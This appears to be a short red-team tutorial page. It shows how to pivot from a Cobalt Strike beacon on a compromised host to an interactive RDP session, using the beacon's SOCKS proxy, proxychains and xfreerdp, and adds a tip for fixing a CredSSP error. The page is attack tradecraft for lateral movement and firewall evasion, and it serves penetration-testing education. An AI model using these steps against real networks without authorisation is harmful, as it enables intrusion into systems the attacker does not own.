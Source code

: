 ```yaml
---
description: 'Lateral Movement, Tunnelling, Firewall Evasion'
---
```


# From Beacon to Interactive RDP Session

This is a quick note showing how to get an interactive Remote Desktop Session \(RDP\) session from a Cobalt Strike beacon by leveraging socks proxy and proxychains.

## Socks Proxy

Say we have compromised a box and we have a beacon running on it:

![](../../.gitbook/assets/image%20%2821%29.png)

The same compromised machine is listening on 3389, meaning it accepts incoming RDP connections:

![](../../.gitbook/assets/image%20%28266%29.png)

Most often you will not be able to reach the machine via RDP from the outside due to corporate and host firewalls, however not all is lost - the machine is still reachable over RDP via sock proxy capability that the beacon provides.

Using the beacon we control, let's create a socks proxy on port 7777. This will expose a TCP port 7777 on the teamserver:

```text
socks 7777
```

![](../../.gitbook/assets/image%20%2842%29.png)

## Proxychains

With the socks proxy create, we can now jump onto any linux box \(Kali in my case\) and configure proxychains to point it to the teamserver and the port we've just exposed:

![](../../.gitbook/assets/image%20%2859%29.png)

We can now connect to the compromised box via RDP using xfreerdp:

{% code title="attacker@kali" %}
```text
proxychains xfreerdp /v:127.0.0.1:3389 /u:spotless
```
{% endcode %}

Below illustrates a successful RDP connection was established although the user on the other end \(me\) killed the session:

![](../../.gitbook/assets/image%20%28418%29.png)

{% hint style="warning" %}
**If you are getting...**  
`Error: CredSSP initialize failed, do you have correct kerberos ticket initialized?  
Failed to connect, CredSSP required by server`

Suggestion is to use `xfreerdp` instead of `rdesktop` and the issue will go away.
{% endhint %}

![CredSSP error using rdesktop](../../.gitbook/assets/image%20%28148%29.png)

